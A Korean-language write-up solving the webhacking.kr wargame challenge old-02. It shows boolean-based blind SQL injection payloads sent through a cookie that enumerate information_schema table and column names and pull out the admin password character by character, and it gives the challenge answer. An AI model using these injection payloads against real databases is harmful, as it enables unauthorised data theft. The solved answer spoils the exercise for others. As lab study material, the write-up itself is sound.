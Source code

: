 # [webhacking]old-02

https://webhacking.kr/

https://power-girl0-0.tistory.com/490

https://poci.tistory.com/100

https://wisdom-990629.tistory.com/entry/Webhackingkr-old-02%EB%B2%88-%EB%AC%B8%EC%A0%9C-%ED%92%80%EC%9D%B4

<br>

![](../img/Study%20Img/%5Bwebhacking%5Dold-02%20-%201.png)

아무것도 없는 글만 있는 페이지이다. 클릭도 없고 뭐도 없다.

개발자 도구(F12)를 이용해 쿠키를 보겠다. time 쿠키 값이 있다.

![](../img/Study%20Img/%5Bwebhacking%5Dold-02%20-%202.png)

HTML 코드를 보자.

![](../img/Study%20Img/%5Bwebhacking%5Dold-02%20-%203.png)

여기서 주석 문구에 힌트가 있는거 같다. 두 가지의 힌트를 얻을 수 있다.

admin.php 페이지 유추, time 쿠키와 관련되어 있어보이는 날짜 값

```html
<!--
2022-12-08 09:39:27
-->

<!-- if you access admin.php i will kick your ass -->
```

admin.php 페이지에 접속이 된다.

패스워드 입력 창이 나온다.

SQL Injection, XSS 등등 공격을 해봤지만 되지 않는다.

날짜 값을 확인해봐야 겠다.

![](../img/Study%20Img/%5Bwebhacking%5Dold-02%20-%204.png)

쿠키 값에 바꿔봤더니 값에 따라 쿠키 값이 바뀐다.

```html
time=1
>>>
<!--
2070-01-01 09:00:01
-->

time=2
>>>
<!--
2070-01-01 09:00:02
-->
```

blind sql 공격 구문 입력했다.

blind sql 공격이 성공 하는 모습. 참이면 1 거짓이면 0이 된다.

blind sql로 데이터베이스 값을 추출해 패스워드까지 알아보겠다.

~~union, error based 다 안되더라~~

```html
time=2 and 1=1
>>>
<!--
2070-01-01 09:00:01
-->

time=1 and 1=1
>>>
<!--
2070-01-01 09:00:01
-->

time=2 and 1=0
>>>
<!--
2070-01-01 09:00:00
-->
```

테이블명 알아내기 - 테이블 갯수 구하기

테이블 수는 2개 확인

```html
time=(select count(table_name) from information_schema.tables where table_schema=database())
>>>
<!--
2070-01-01 09:00:02
-->
```

테이블명 알아내기 - 각각 테이블 길이 구하기

각각 13, 3 의 길이

```html
time=(select length(table_name) from information_schema.tables where table_schema=database() limit 0,1)
>>>
<!--
2070-01-01 09:00:13
-->

time=(select length(table_name) from information_schema.tables where table_schema=database() limit 1,1)
>>>
<!--
2070-01-01 09:00:3
-->
```

테이블명 알아내기 - 각각 테이블 명 추출, 아스키코드 값으로

이런식으로 하나 씩 늘려가면서 다 찾아본다. 귀찮다면 파이썬 스크립트를 만들어도 되고 나는 할줄 몰라서 버프의 intruder를 이용했다.


```html
time=(select ascii(substr(table_name,1,1)) from information_schema.tables where table_schema=database() limit 0,1)
>>>
<!--
2070-01-01 09:01:37
-->

time=(select ascii(substr(table_name,2,1)) from information_schema.tables where table_schema=database() limit 0,1)
>>>
<!--
2070-01-01 09:01:40
-->
```

![](../img/Study%20Img/%5Bwebhacking%5Dold-02%20-%205.png)

그렇게 나온 아스키 코드 값을 변환해주면

각각 admin_area_pw, log 가 나온다.

이렇게 테이블 명을 구했다.

```
97 100 109 105 110 95 97 114 101 97 95 112 119
>>>
admin_area_pw

108 111 103
>>>
log
```

컬럼 명 구하기 - 컬럼 갯수 구하기

패스워드는 admin 테이블에 있을거 같으니 먼저 했다.

1개 존재

```html
test=(select count(column_name) from information_schema.columns where table_name='admin_area_pw')
>>>
<!--
2070-01-01 09:00:01
-->
```

컬럼 명 구하기 - 컬럼 길이 구하기

길이는 2 이다

```html
test=(select length(column_name) from information_schema.columns where table_name='admin_area_pw')
>>>
<!--
2070-01-01 09:00:02
-->
```

컬럼 명 구하기 - 컬럼 값 추출, 아스키 코드로

길이는 2 이다

컬럼 명은 pw

```html
test=(select ascii(substr(column_name,1,1)) from information_schema.columns where table_name='admin_area_pw')
>>>
<!--
2070-01-01 09:01:52
-->

test=(select ascii(substr(column_name,2,1)) from information_schema.columns where table_name='admin_area_pw')
>>>
<!--
2070-01-01 09:01:59
-->
```

```
112 119
>>>
pw
```

데이터 베이스 조회 - pw 컬럼안에 데이터 갯수 검색

1개 확인

```html
test=(select count(pw) from admin_area_pw)
>>>
<!--
2070-01-01 09:00:01
-->
```

데이터 베이스 조회 - pw 컬럼안에 데이터 길이 검색

17 길이 확인

```html
test=(select length(pw) from admin_area_pw)
>>>
<!--
2070-01-01 09:00:17
-->
```

데이터 베이스 조회 - pw 컬럼안에 데이터 길이 검색

17 길이 확인

아스키 코드 값을 구하자.

드디어 패스워드 값 추출 성공~~!!

```html
test=(select ascii(substr(pw,1,1)) from admin_area_pw)
>>>
<!--
2070-01-01 09:01:47
-->
```

```
107 117 100 111 115 95 116 111 95 98 101 105 115 116 108 97 98
>>>
kudos_to_beistlab
```

<br>

정답!!!~~ 

![](../img/Study%20Img/%5Bwebhacking%5Dold-02%20-%206.png)

<br><br>

---
union으로만 데이터베이스 값 추출할 수 있었는지 알았는데 blind로도 가능하구나 다른 것으로 가능할까?
